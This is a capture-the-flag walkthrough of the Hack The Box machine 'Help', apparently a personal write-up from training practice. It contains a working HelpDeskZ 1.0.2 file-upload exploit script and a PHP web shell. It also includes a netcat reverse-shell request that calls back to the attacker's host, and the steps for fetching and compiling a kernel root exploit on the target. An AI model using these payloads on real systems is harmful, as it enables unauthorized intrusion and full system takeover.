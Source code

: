 # Help

![image](https://user-images.githubusercontent.com/10210108/79370689-1ddea400-7f21-11ea-9891-c8d29a592923.png)

## Overview
Help is an Ubuntu box running helpdesk software that was vulnerable to an unauthenticated arbitrary file upload. After getting some additional information from the application's github repo and tweaking the exploit I was able to get initial foothold as user 'help'. After running the linux-exploit-suggester-2 tool I was able to upload and compile a kernel exploit on the target to obtain a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.5 LTS
* Apache 2.4.18
* Node.js Express Framework
* Helpdeskz 1.0.2

**NMAP Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.121 -oN /mnt/data/boxes/help/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 3000/tcp - http

**Gobuster**
```
gobuster dir -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 35
```

* /support
* /index.html
* /javascript

## Steps (user)

I started off by browsing to http://10.10.10.121 which showed the Apache2 Ubuntu Default Page. Moving on to the gobuster results, I browsed to http://10.10.10.121/support which showed a [Helpdeskz](https://www.helpdeskz.com/) page.

![image](https://user-images.githubusercontent.com/10210108/82090583-d84dfc00-96c3-11ea-8afd-55e3b9c88e06.png)

I ran a search against searchsploit for "helpdeskz" and there were two results. 

![image](https://user-images.githubusercontent.com/10210108/82107448-b8373080-96f5-11ea-85b7-38f72922ee10.png)

Since 41200 required authentication and I had yet to find any credentials, I went with 40300.

https://www.exploit-db.com/exploits/40300

The script works by getting current time from the webserver and generating filenames by taking the filename + current time and hashing it with md5 to creat the final filename. The script then checks to see if that file exists on the webserver. If response 200 is returned the url is printed to the screen and the script is stopped. I had to make a few tweaks to get it to work.

```python
import hashlib
import time
import sys
import requests
import datetime

print('Helpdeskz v1.0.2 - Unauthenticated shell upload exploit')

if len(sys.argv) < 3:
    print("Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z') - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext.encode('utf-8')).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'

    print("[*] Trying time offset: " + str(x))

    response = requests.head(url)

    if response.status_code == 200:
        print("[!] Found! => " + url)
        sys.exit(0)

print("[*] Sorry, I did not find anything")

```

The URL mentioned in the comments of the exploit was different than the URL on the target so I wanted to confirm the correct path before continuing. I did an internet search for helpdeskz application and found its github repo https://github.com/evolutionscript/HelpDeskZ-1.0

I found UPGRADING.txt which allowed me to pull that file up on the target box and confirm it was version 1.0.2.

![image](https://user-images.githubusercontent.com/10210108/82108398-24b52e00-96fc-11ea-991c-07d2bb68efdd.png)

I then reviewed the controllers/submit_ticket_controller.php file that was mentioned in the notes and found the section dealing with uploads

```
"UPLOAD_DIR".'tickets/'
```

![image](https://user-images.githubusercontent.com/10210108/82108481-a60cc080-96fc-11ea-9aa6-f0f7f5cf1e22.png)

I continued to look around and found that the includes/global.php defined the UPLOAD_DIR variable:

```
define('UPLOAD_DIR', ROOTPATH . 'uploads/');
```

![image](https://user-images.githubusercontent.com/10210108/82108491-c3418f00-96fc-11ea-876b-1972a36080d5.png)

Putting everything together the full path is **http://10.10.10.121/uploads/tickets**

Having everything I needed to run the script I created a basic web shell and saved it to cmd.php
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' cmd.php
```
I clicked "Submit a Ticket", filled out the required field, attached the cmd.php and clicked submit.

![image](https://user-images.githubusercontent.com/10210108/82101138-a9db1b80-96d9-11ea-9179-58e07eee17fc.png)

I ran the script providing the url and cmd.php as parameters. The script was able to determine the name of the file as **993824593a0e0385f451288588801156.php**

```
python3 ./40300.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

![image](https://user-images.githubusercontent.com/10210108/82107927-39dc8d80-96f9-11ea-84a6-7e6d313238e0.png)

I browsed to http://10.10.10.121/uploads/tickets/993824593a0e0385f451288588801156.php and added ?cmd=lsb_release -a to confirm I was able to run commands and see the output.

```
http://10.10.10.121/support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=lsb_release%20-a
```

![image](https://user-images.githubusercontent.com/10210108/82101259-0e967600-96da-11ea-9126-d18f2c84d0df.png)


I opened burp and sent the request to repeater so I could modify the request. I modified the request and url encoded it, and after setting up a netcat listner (nc -lvnp 4200), I hit send.

```
GET /support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.24+4200+>/tmp/z+HTTP/1.1
```
![image](https://user-images.githubusercontent.com/10210108/82107073-fb43d480-96f2-11ea-896f-57c9f59dcde9.png)


## Steps (root/system)

I didn't find much enumerating help's home folder, there was a password in the .bash_history file but it didn't appear to be used anywhere on the box. LinEnum didn't turn up anything out of the ordinary. I downloaded [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) and it showed a few kernel exploits for version 4.4.0.

![image](https://user-images.githubusercontent.com/10210108/82107334-d3ee0700-96f4-11ea-95ee-c96a1e0f7100.png)

I ran searchsploit -m to make a copy of the exploit from searchsploit

```
searchsploit -m 45010
```

I started up a python http server on my box and copied the exploit to the target box

```
python3 -m http.server 80
```

```
wget http://10.10.14.24/45010.c
```

GCC was installed so I was able to compile it right on the target
```
gcc 45010.c -o 45010
```

After running it I received a root shell

![image](https://user-images.githubusercontent.com/10210108/82107377-229ba100-96f5-11ea-87d7-fba62581838c.png)
